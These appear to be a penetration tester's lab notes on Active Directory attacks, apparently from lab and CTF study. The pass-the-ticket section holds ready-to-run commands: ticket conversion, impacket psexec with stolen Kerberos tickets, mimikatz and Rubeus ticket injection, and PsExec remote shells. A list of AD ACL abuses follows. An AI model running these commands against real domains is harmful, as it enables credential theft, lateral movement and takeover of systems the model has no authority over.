 **python possible error**
+ `PyAsn1Error(‘NamedTypes can cast only scalar values’,) `: Resolved by updating impacket to the lastest version
+ `KDC can’t found the name` : Resolved by using the hostname instead of the IP address, because it was not recognized by Kerberos KDC


### pass the ticket - check the course
**path the ticket**, similar to Pass the Key; But instead of using hashes to request a ticket, the ticket itself is stolen and used to authenticate as its owner.
+ takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service.
+ dumping the TGT from the LSASS memory of the machine, notice the domain admins/domain service account tcikets.
+ this attack is greate for privilege escalation and lateral movement. 


```bash
# swaping linux and windows tickets between platforms
## https://github.com/Zer1t0/ticket_converter
## Converting ccache => kirbi
ticket_converter# python ticket_converter.py velociraptor.ccache velociraptor.kirbi

## Converting kirbi => ccache
ticket_converter# python ticket_converter.py velociraptor.kirbi velociraptor.ccache


# ptt attack
## linux
export KRB5CCNAME=/root/impacket-examples/krb5cc_1120601113_ZFxZpK 
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass

## error:[Errno Connection error (controller-1.controller.local:445)] [Errno -2] Name or service not known
## echo the dns name to hosts
echo '10.10.195.194 controller-1.controller.local' | sudo tee -a /etc/hosts
psexec.py controller.local/administrator@controller-1.controller.local -k -no-pass

## windows
##Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi"
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi

klist #List tickets in cache to cehck that mimikatz has loaded the ticket

.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```

### abuse AD ACLs/ACEs
+ interesting privileges over some domain objects that could let you move laterally/escalate privileges.
+ Generic all on user/group/computer
+ writeproperty on group
+ writedacl permission, Group: exchange windows; htb forest
+ ForceChangePassword, reset user's password via rpc
+ ad ACLs/ACEs abuse, [hacktricks acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
